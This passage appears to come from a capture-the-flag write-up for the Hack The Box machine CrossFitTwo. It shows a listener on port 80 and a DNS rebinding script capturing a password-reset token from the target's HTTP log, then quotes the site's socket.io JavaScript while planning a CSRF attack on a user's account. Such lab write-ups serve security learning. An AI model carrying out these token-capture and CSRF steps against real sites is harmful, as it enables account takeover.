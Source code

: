 Because we change the IP address to our host - we need also to listen to port 80 to get the requests:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/unbound_files]
└──╼ $ sudo php -S 0.0.0.0:80
[sudo] password for user: 
[Sun Aug 15 03:28:02 2021] PHP 7.4.5 Development Server (http://0.0.0.0:80) started

```

Run the ```dns_rebind.sh``` script and when the attack success we will get the following:
```console
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.232 - - [13/Aug/2021 17:45:18] code 404, message File not found
10.10.10.232 - - [13/Aug/2021 17:45:18] "GET /password-reset.php?token=3a79dc4559a8df1a05f65f9ec677a3465aff23a32a6a3787ec75a95b28fd443a5c4fc1c99341d6125aa16d4493deb56de97b9055217332c2b545810412b9f586 HTTP/1.1" 404 -

```

If we are trying to use this reset password token we got:

![disabled.JPG](images/disabled.JPG)

And It's ok, The password reset isn't what we need to get access to - We need to make [CSRF attack](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF%20Injection/README.md) David's user.

So by enumerating the JS files we can see the following file ```app-XXXXXXX.js``` which contains the following:
```javascript
...
created() {
                    let e = this;
                    xe = Ce.a.connect("http://crossfit-club.htb", {
                        transports: ["polling"]
                    }), window.addEventListener("beforeunload", (function(t) {
                        xe.emit("remove_user", {
                            uid: e.currentUserId
                        })
                    })), xe.on("disconnect", e => {
                        this.$router.replace("/login")
                    }), xe.emit("user_join", {
                        username: localStorage.getItem("user")
                    }), xe.on("participants", e => {
                        e && e.length && (this.rooms[0].users = e, this.renderUsers())
                    }), xe.on("new_user", e => {
                        e.username === localStorage.getItem("user") && (this.currentUserId = e._id, console.log(this.currentUserId))
                    }), xe.on("recv_global", e => {
```
